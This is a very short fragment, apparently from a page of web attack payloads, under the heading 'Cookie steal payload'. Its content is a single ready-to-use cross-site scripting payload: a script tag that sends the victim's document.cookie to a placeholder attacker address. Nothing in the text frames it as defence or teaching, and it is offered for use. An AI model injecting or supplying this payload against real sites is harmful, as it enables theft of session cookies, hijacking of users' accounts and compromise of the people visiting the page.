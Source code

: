 ### Cookie steal payload
`<script>var i=new Image(); i.src="http://<YOUR_IP>/?cookie="+document.cookie;</script>`
